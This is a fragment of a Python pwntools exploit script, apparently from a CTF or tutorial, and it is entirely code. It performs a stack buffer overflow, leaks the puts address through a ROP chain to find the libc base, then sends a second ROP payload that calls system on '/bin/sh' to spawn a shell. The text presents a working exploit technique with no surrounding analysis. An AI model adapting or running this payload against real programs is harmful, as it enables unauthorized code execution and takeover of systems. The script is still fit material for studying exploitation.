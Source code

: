     # Initial payload
    payload  =  "A"*140
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    p.clean()
    
    # Calculate libc base
    libc_base = leak - offset_puts
    log.info("libc base: 0x%x" % libc_base)

    # Stage 2
    
    # Calculate offsets
    system_addr = libc_base + offset_system
    exit_addr = libc_base  + offset_exit
    binsh_addr = libc_base + offset_str_bin_sh

    log.info("system is at: 0x%x" % system_addr)
    log.info("/bin/sh is at: 0x%x" % binsh_addr)
    log.info("exit is at: 0x%x" % exit_addr)

    # Build 2nd payload
    payload2  =  "A"*140
    ropchain2 =  p32(system_addr)
    ropchain2 += p32(exit_addr)
    # Optional: Fix disallowed character by scanf by using p32(binsh_addr+5)
    #           Then you'll execute system("sh")
    ropchain2 += p32(binsh_addr) 

    payload2 = payload2 + ropchain2
    p.sendline(payload2)
